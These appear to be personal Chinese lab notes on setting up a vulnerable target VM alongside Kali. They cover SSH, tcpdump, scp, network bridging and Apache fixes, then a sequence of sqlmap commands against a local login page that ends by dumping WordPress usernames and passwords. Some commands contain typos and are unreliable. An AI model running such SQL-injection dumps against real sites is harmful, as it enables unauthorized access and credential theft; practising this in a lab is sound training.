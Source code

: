 一些环境问题
破解密码(为什么要破解是当时俩台虚拟机不在同一个虚拟软件上一直没有扫到对应mac的主机)。
1.在没有进入引导前光标切进去长按shift进入grub。
2.安装open-server 
sudo apt-get update 
 sudo apt-get install openssh-server  
ps -e | grep ssh
sudo /etc/init.d/ssh resart
3.开启ssh root登录。
4.用tcpdump
tcpdump -D 
tcpdump -i eth0 -w file.cap
5.用scp
scp root@107.172.27.254:/home/test.txt .   //下载文件

scp test.txt root@107.172.27.254:/home  //上传文件

scp -r root@107.172.27.254:/home/test .  //下载目录

scp -r test root@107.172.27.254:/home   //上传目录
6.鞋机我这只能用vmbox打开了，vmware是一直报错，然后俩个不同的虚拟机可能网段不一样，按理全选桥接应该是一个网段的但是有时也不一样，我就一直重启直到俩个虚拟机网段一样，实现不行用vmbox也跑kali(vmware桥接无法分配ip 找到编辑->虚拟机网络编辑器->找到桥接模式那一行的外部链接要选种主机的网卡)。
7.鞋机apache2服务器有问题，8080与443端口没打开，我就直接翻他的配置文件了，在 /etc/apache2/sites-available/000-default.conf 中有 /var/www/html。
8.sqlmap无法更新
解决方法： 找到sqlmap的路径/usr/share/salmap

执行 cd /usr/share/

然后删掉sqlmap   rm -rf sqlmap/

然后执行 git clone https://github.com/sqlmapproject/sqlmap

克隆到路径即可。

sqlmap 语句
开始扫描漏洞
sqlmap -u "http://192.168.0.174/login.php" --form --level 3
开始扫描数据库
sqlmap -u "http://192.168.0.174/login.php" --form --level 3 --dbs
指定数据库扫数据库表
sqlmap -u "http://192.168.0.174/login.php" --form --level 3 -D wordpress8080 --tables
指定数据库表扫字段
sqlmap -u "http://192.168.0.174/login.php" --form --level 3 -D wordpress8080 -T users--columns
指定字段dump表
sqlmap -u "http://192.168.0.174/login.php" --form --level 3 -D wordpress8080 -T users -C "password,username" --dump
